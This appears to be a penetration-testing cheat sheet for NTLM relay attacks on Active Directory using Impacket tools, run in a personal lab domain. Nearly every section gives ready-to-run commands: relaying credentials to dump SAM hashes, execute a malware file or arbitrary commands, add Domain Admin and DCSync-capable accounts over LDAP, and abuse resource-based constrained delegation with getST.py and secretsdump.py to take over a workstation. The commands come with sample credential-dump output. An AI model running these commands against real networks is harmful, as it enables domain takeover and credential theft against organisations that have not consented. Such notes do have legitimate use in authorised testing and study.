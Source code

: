 # ntlmrelayx

## Relay to Workstations other Clients

### dump SAM

`ntlmrelayx.py -tf targets.txt -smb2support`

### interactive session

`ntlmrelayx.py -tf targets.txt -smb2support -i`

### Execute a file

`ntlmrelayx.py -tf targets.txt -smb2support -e malware.exe`

### Execute a command

`ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"`

## Relay to AD with LDAP

### Basic command

This command will:

- dump LDAP information
- if credentials allow it
  - add a Domain Admin account (user is added to Enterprise Admins group)
  - setup a 'domain user' account with ACL rights to preform a DCsync.

`ntlmrelayx.py -6 -t ldaps://10.11.12.1 -wh wdap.lab.justin-p.me`

combine with secretsdump.py for fun.

```bash
secretsdump.py UDlGmXMPsh:'e=yZF&~+.RUJ|dh'@lab.justin-p.me -just-dc 
Impacket v0.9.21.dev1+20200209.151450.b938f422 - Copyright 2020 SecureAuth Corporation
                                              
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:a:a:::
Guest:501:a:a:::
krbtgt:502:a:a:::
```

### Create a computer account in AD

Any user can create up to 10 computer accounts. Using the command below we can use relayed credentials to create a computer account. By default it will create a random computer account in the default computer OU.

`ntlmrelayx.py -6 -t ldaps://10.11.12.1 -wh wdap.lab.justin-p.me --add-computer [OPTIONAL COMPUTERNAME]`

### Abuse msDS-AllowedToActOnBehalfOfOtherIdentity

Works by default and does not require any AD credentials to perform!

Computer accounts can modify some of their own properties via LDAP, which includes the msDS-AllowedToActOnBehalfOfOtherIdentity attribute. This attribute controls which users can authenticate to the computer as almost any account in AD via impersonation using Kerberos. This concept is called Resource-Based constrained delegation.

We can abuse this when we relay a computer account credential by modifying this attribute to give ourselves rights impersonate users on that computer. 

The command below will add a new computer account to the domain, it will then add that computer account to the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of the relayed computer account.

`ntlmrelayx.py -6 -t ldaps://10.11.12.1 -wh wdap.lab.justin-p.me --delegate-access`

Combine with getST.py and secretsdump.py for complete control over workstation.

```bash
getST.py -spn cifs/LAB-PC01.lab.justin-p.me lab.justin-p.me/test-machine\$ -impersonate administrator
Impacket v0.9.21.dev1+20200209.151450.b938f422 - Copyright 2020 SecureAuth Corporation

Password:
[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache  
```

```bash
KRB5CCNAME=administrator.ccache 
secretsdump.py -k -no-pass LAB-PC01.lab.justin-p.me 
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xb5f4662f815fdf939e16188273d583a2
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:
[*] Cleaning up...
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry 
```
